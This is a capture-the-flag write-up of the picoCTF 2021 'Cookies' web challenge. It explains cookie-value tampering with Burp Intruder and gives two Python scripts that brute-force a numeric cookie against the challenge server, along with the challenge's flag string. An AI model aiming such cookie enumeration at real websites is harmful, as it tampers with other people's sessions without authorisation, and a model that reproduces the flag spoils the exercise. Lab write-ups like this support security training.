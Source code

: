 ### Cookies

Author: madStacks
#easy #web_exploitation #picoCTF2021 
#### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

##### Solution:
how to find cookies
![Cookies/web\_browser\_cookies.png](Cookies/web_browser_cookies.jpg)

change the value of cookies
![Cookies/changeing\_cookies\_value.png](Cookies/changeing_cookies_value.jpg)

now use burpsute to get the flag 
position setting
![Cookies/intruder\_attacking\_type.png](Cookies/intruder_attacking_type.jpg)

set payload to numbers
![Cookies/attacking\_payload.png](Cookies/attacking_payload.jpg)

and add grep match picoCTF{  to indentify flag
![Cookies/grep\_match\_setting.png](Cookies/grep_match_setting.jpg)
here is flag

![Cookies/Cookies/Cookies/Cookies/Cookies/Logon/Logon/flag.jpg](Cookies/flag.jpg)

flag is `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`
python code to get flag

```python
import requests

# Loop through a range of cookie values
for i in range(25):
    # Setting a different cookie value each time
    headers = {'Cookie': f'name={i}'}
    
    # Sending the GET request
    response = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Printing the result for each cookie value
    print(f"Trying cookie name={i}")
    print(response.text)

    # Break the loop if the flag is found
    if 'picoCTF' in response.text:
        print("Flag found!")
        break
```

another python code
```python
#!/bin/python3
import requests

for i in range(25):
    # Show the current cookie being used
    print(f"Trying cookie value: {i}")
    
    cookie = 'name={}'.format(i)
    print(cookie)
    headers = {'Cookie': cookie}
    print(headers)
    # Make the request to the server
    r = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Check if the response contains the flag
    if r.status_code == 200 and 'picoCTF' in r.text:
        print("Flag found!")
        print(r.text)
        break  # Exit loop once flag is found
    else:
        print(f"Status: {r.status_code}, No flag yet.")

```